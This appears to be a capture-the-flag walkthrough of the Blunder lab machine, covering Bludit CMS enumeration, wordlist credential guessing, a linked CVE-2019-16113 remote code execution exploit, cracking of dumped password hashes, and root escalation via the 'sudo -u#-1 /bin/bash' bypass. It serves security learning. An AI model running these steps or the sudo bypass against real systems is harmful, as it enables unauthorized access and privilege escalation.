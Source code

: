 1, Recon
	80/tcp http `Blunder | A blunder of interesting facts`
This so tricky, only one port is open.

And by basically enumerate we find the `/admin` the login page.
![[Pasted image 20240910093858.png]]
Check all of them, only the `/admin` would be useful for us, but others could not find anything.

we have get the version of this
`[http://10.10.10.191/bl-kernel/css/bootstrap.min.css?version=3.9.2](view-source:http://10.10.10.191/bl-kernel/css/bootstrap.min.css?version=3.9.2)"`
From the http-title, we have known this is a Blunder CMS.
So maybe we can find the default credit or guess some existed exploits.
In the exploit-db.
`Bludit 3.9.2 - Authentication Bruteforce Mitigation Bypass`
We have known there must be a username `admin` as the default administrator.
And even it could be exploited by Metasploit
`Bludit Directory Traversal Image File Upload Vulnerability`

and there is another file
```
-Update the CMS
-Turn off FTP - DONE
-Remove old users - DONE
-Inform fergus that the new blog needs images - PENDING
```
There is a username `fergus`
In this place, before we use rockyou.txt, we can make a wordlist.
`cewl http://10.10.10.191 > wordlist`
And we successfully get the credit.
`fergus:RolandDeschain`

When we login, we can try the RCE exploit.
`https://github.com/0xConstant/CVE-2019-16113.git`

Then we can get the www-data shell

2, get the user shell.
Enumerate the directory, there is a `users.php` file
```
"admin": {
        "nickname": "Admin",
        "firstName": "Administrator",
        "lastName": "",
        "role": "admin",
        "password": "bfcc887f62e36ea019e3295aafb8a3885966e265",
        "salt": "5dde2887e7aca",
```
We can try to crack it.
And there is also another version of `bludit-3.10.0a` and we can get another credit from that
```
"admin": {
        "nickname": "Hugo",
        "firstName": "Hugo",
        "lastName": "",
        "role": "User",
        "password": "faca404fd5c0a31cf1897b823c695c85cffeb98d",

```

In this place, we can check the `/etc/passwd`
```
hugo:x:1001:1001:Hugo,1337,07,08,09:/home/hugo:/bin/bash
temp:x:1002:1002:,,,:/home/temp:/bin/bash
shaun:x:1000:1000:blunder,,,:/home/shaun:/bin/bash
```

So the hugo would be invalid user and let's crack it.
`faca404fd5c0a31cf1897b823c695c85cffeb98d	sha1	Password120`

Let's su hugo.
And when we check the `sudo -l`
```
Matching Defaults entries for hugo on blunder:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User hugo may run the following commands on blunder:
    (ALL, !root) /bin/bash
```
That was so tricky, and  we can check the sudo version

```
sudo --version
Sudo version 1.8.25p1
Sudoers policy plugin version 1.8.25p1
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.25p1
```
There is a exploit in exploit-db:
`sudo 1.8.27 - Security Bypass`
`sudo -u#-1 /bin/bash`
Then we can get the root shell.
